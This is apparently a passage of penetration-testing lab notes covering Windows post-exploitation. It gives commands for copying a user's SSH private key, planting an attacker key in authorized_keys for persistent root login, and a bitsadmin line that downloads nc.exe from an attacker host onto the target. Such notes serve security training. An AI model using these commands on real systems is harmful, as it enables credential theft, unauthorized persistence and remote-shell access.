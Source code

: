 - Readable / Owned web files (for web application)

  - SSH keys:  

    - Read: copy it from `file:///c:/users/[USERNAME]/.ssh/id_rsa`

      ```bash
      $ chmod 600 id_rsa	# More restrictive permission
      $ ssh root@10.10.10.10 -i id_rsa
      $ nano id_rsa	# open and copy on your machine
      ```

    - Write: place our public key in the user's ssh directory at `file:///c:/users/[USERNAME]/.ssh/authorized_keys`

      ```bash
      ssh-keygen -f key	#Generate a key in the output file key
      ssh-copy-id -i key.pub root@10.10.10.10	#copy key.pub in and add it to the remote folder
      ssh root@10.10.10.10 -i key	# Login
      ```

    

### Local Network Services

- `systeminfo`

### Local Processes

### OS


- Kernel Exploits

  - In meterpreter: local exploit suggester module
- Vulnerable Software:  `C:\Program Files` 

# Transferring files

## Windows

### Download

#### Native Binaries

[LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)

**Bitsadmin**

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It  "intelligently" checks host and network utilization into account to  minimize the impact on a user's foreground work.

```cmd
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```
